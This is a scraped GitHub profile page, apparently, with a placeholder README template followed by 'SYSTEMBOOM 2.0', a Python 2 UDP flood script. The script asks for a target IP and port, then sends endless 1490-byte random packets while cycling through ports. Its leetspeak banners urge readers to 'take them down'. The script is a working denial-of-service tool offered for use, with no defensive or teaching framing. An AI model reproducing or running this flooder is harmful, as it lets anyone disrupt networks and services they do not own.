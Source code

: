 - 👋 Hi, I’m @CyBerGuArD-cell
- 👀 I’m interested in ...
- 🌱 ഞാൻ നിലവിൽ പഠിക്കുന്നു ...
- 💞️
- 📫 How to reach me ...

<!---
CyBerGuArD-cell/CyBerGuArD-cell is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

#!/system/bin/python

#SYSTEMBOOM 2.0 27-06-2017 (1:42)

#Tool for UDP Flood

#Authorized by DedSecTL

#cyber guard 

import socket, os, random, time

# Color

B = '\033[1m'

R = '\033[31m'

N = '\033[0m'

# Code time ##################

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year

##############################

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

os.system("clear")

print 

print "["+B+""+R+"#"+N+"] "+B+""+R+"CYBERGUARD"+N+"   SYSTEMBOOM - "+B+""+R+"DedSecTL"+N            

print

print "#T4ke 7hem d0wn vroh - D0n7 g1ve up - SYSTEMBOOM th3m"

print "#H4ck 4ll 7he 7h1ng - F1ght f0r Ju5t1c3 - K1ll th3m"

print

ip = raw_input('[$] T@rget 1P: ')

port = input('[$] P0rt: ')

os.system("clear")

print "SYSTEM attack started on {0}.{1} | {2}-{3}-{4}".format(hour, minute, day, month, year)

time.sleep(3)

print

sent = 0

while True:

     sock.sendto(bytes, (ip,port))

     sent = sent + 1

     port = port + 1

     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)

     if port == 65534:

       port = 1
